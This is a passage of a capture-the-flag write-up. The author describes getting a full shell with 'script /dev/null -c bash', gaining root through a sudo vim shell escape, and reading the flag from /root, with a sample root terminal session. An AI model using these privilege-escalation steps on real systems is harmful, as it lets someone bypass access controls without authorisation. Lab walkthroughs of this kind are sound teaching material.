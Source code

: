 ps aux | grep vim
ps aux | grep flag'''  : I tried this also to find all the working files having flag or vim in their name.

After this i discovered some new things, many people might know it already but i saw it first time...
*script /dev/null -c bash* : This command creates a pseudo terminal so that we can use other utilities also which we were restricted to use in the previous shell

sudo /bin/vim -c ':!/bin/bash'  : This is called  Privilege Escalation to Root via sudo vim .I became the root user after this command and could access any restricted directory and make modifications.  

After this I checked the contents in Ubuntu there was a file named flag.txt when i tried to read, it displayed g{} which was similar to the flag format only but not the flag.  
There was also a file flag.txt.swo but it considered corrupted or some binary content, not readable, so i found that Vim swap files are not plain text.  

```bash
root@1d6089cf076a:/home# ls -la /home/ubuntu  
total 52
drwxr-x--- 1 ubuntu ubuntu  4096 May 22 17:13 .
drwxr-xr-x 1 root   root    4096 Apr 15 14:11 ..
-rw-r--r-- 1 ubuntu ubuntu   220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu  3771 Mar 31  2024 .bashrc
-rw-r--r-- 1 root   root   12288 May 22 17:13 .flag.txt.swo
-rw-r--r-- 1 root   root   12288 May 22 12:23 .flag.txt.swp
-rw-r--r-- 1 ubuntu ubuntu   807 Mar 31  2024 .profile
-rw-r--r-- 1 root   root       9 May 22 02:43 flag.txt  

root@1d6089cf076a:/home# cat /home/ubuntu/flag
cat /home/ubuntu/flag  
```
Earlier I saw ubuntu containg many files having name as flag.txt flag.swo so i thought that the flag might be present inside this only but it wasn't present.  

cat: /home/ubuntu/flag: No such file or directory
root@1d6089cf076a:/home# cat /root/flag
 
Mostly in CTFs after we become the root user we once try to see the content of flag file in the root directory. And fortunately our flag was also present in this file only . 


**``PClub{y0u_ar3_in_7he_sudoers_th1s_1nc1d3nt_will_n0t_be_rep0r7ed}``**





---
---
---
---




